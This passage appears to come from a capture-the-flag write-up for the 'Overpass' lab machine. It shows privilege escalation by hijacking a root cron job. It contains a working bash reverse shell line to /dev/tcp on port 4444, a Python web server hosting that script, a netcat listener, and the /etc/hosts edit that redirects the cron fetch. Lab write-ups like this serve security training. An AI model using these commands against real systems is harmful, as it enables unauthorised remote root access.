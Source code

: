 ## Exploiting
### reverse shell script
Back on my attacker machine, I set up a directory structure like they have:
```
cd ~
mkdir -p www/downloads/src
```
Then I create a "buildscript.sh" in this folder
```
#!/bin/bash
bash -i >& /dev/tcp/{My Machine's IP}/4444 0>&1
```

### hosting attack script
Using Python to keep this simple.
```
root@4106f9d82986:~# cd ~/www
root@4106f9d82986:~/www# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

then in another console: (or tmux pane for the cool kids)
### netcat listener
```
root@4106f9d82986:~# nc -lvnp 4444
listening on [any] 4444 ...
```

### manipulating /etc/hosts
Logging back on as James, I edit /etc/hosts
```
vi /etc/hosts
```
I see the items in the host file:
```
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.1.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Now I only have to replace the IP for overpass.thm with my attacker machine IP, and save

Now it's only a matter of waiting for a minute for the cron job to catch the script, you will see the python server display a message that there was a connection:
```
{victim IP} - - [21/Jul/2020 01:21:13] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```
